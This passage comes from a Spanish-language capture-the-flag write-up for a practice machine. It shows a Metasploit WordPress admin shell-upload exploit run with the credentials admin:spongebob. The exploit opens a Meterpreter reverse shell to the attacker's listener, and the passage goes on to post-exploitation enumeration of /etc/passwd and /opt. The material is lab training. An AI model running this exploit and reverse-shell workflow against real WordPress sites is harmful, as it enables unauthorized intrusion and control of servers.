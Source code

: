 Y ejecutémoslo:
```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit
[*] Started reverse TCP handler on Tu_IP:4444 
[*] Authenticating with WordPress using admin:spongebob...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp1/wp-content/plugins/TOYkTpnNON/cKUXROTiJM.php...
[*] Sending stage (40004 bytes) to 192.168.10.180
[+] Deleted cKUXROTiJM.php
[+] Deleted TOYkTpnNON.php
[+] Deleted ../TOYkTpnNON
[*] Meterpreter session 1 opened (Tu_IP:4444 -> 192.168.10.180:37388) at 2025-07-11 13:36:21 -0600

meterpreter > getuid
Server username: www-data
meterpreter > systeminfo
[-] Unknown command: systeminfo. Did you mean sysinfo? Run the help command for more details.
meterpreter > sysinfo
Computer    : TheHackersLabs-Thefirstavenger
OS          : Linux TheHackersLabs-Thefirstavenger 6.8.0-45-generic #45-Ubuntu SMP PREEMPT_DYNAMIC Fri Aug 30 12:02:04 UTC 2024 x86_64
Meterpreter : php/linux
```
Estamos dentro.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="linEnum">Enumeración de la Máquina Víctima</h2>

Veamos qué usuarios existen en la máquina:
```bash
www-data@TheHackersLabs-Thefirstavenger:/var/www/html/wp1/wp-content/themes/twentytwentythree/patterns$ cd /home
www-data@TheHackersLabs-Thefirstavenger:/home$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
steve:x:1000:1000:Steve Rogers:/home/steve:/bin/bash
```
Solo existe un usuario llamado **steve**, pero no podremos entrar a su directorio.

Si revisamos el directorio `/opt`, veremos una carpeta, pero no tendremos acceso a ella:
```bash
www-data@TheHackersLabs-Thefirstavenger:/home$ ls -la /opt
total 12
drwxr-xr-x  3 root root 4096 Oct  7  2024 .
drwxr-xr-x 23 root root 4096 Oct  7  2024 ..
dr-x------  2 root root 4096 Oct  8  2024 app
```
Quizá es una aplicación que esté activa.
